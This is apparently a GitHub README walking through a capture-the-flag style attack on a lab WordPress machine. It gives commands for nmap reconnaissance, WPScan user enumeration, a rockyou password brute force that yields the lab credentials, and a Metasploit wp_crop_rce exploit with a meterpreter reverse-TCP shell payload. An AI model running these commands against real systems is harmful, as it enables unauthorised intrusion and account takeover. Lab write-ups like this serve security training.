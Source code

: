 # Project Overview

Welcome to our GitHub repository! This project aims to demonstrate and document a comprehensive approach to identifying and exploiting vulnerabilities within a WordPress site environment. Our goal is to provide a detailed walkthrough of conducting a security assessment, from initial reconnaissance to gaining access, with a focus on ethical hacking practices.

## 🛠 Initial Reconnaissance with Nmap

The journey begins with an `nmap` scan, a foundational step in understanding the target's exposed services and potential entry points.

```shell
nmap -sC -sV -Pn 10.10.151.250
```

This command probes the target for open ports, service versions, and default scripts, providing a landscape of the network.

## 🕵️‍♂️ Discovering Vulnerabilities

Upon identifying open ports and services, further investigation led us to several interesting findings, including open SSH and HTTP ports, indicating potential pathways for deeper exploration.

### WordPress Enumeration with WPScan

WPScan, a dedicated WordPress vulnerability scanner, is employed to unearth specific vulnerabilities within the WordPress installation.

```shell
wpscan --url http://10.10.151.250
```

Further enumeration reveals users and possible points of entry:

```shell
wpscan --url http://10.10.151.250 --enumerate ap,at,u
```

## 🔓 Exploiting Vulnerabilities

### Brute Force Attack

With identified usernames, we proceed with a brute-force attack to uncover passwords, using the `rockyou.txt` wordlist.

```shell
wpscan --url http://10.10.151.250 --passwords /usr/share/wordlists/rockyou.txt --user kwheel
```

Success! We discover credentials for the user `kwheel`.

## 🚪 Gaining Access

Using the found credentials, we explore ways to gain deeper access, potentially exploiting WordPress vulnerabilities or misconfigurations for remote code execution.

### Reverse Shell and Privilege Escalation

Utilizing Metasploit Framework, we aim to establish a reverse shell, moving towards gaining elevated privileges on the target machine.

1. **Starting Metasploit**

```shell
msfconsole
```

2. **Searching for and Setting Up an Exploit**

```shell
search wordpress 5.0
use exploit/multi/http/wp_crop_rce 
set RHOSTS machine_local_IP
set USERNAME kwheel
set PASSWORD cutiepie1
```

3. **Configuring and Launching the Payload**

```shell
set payload php/meterpreter/reverse_tcp
set LHOST your_local_IP
exploit
```

-------------------------------------------
# To be continued...
-------------------------------------------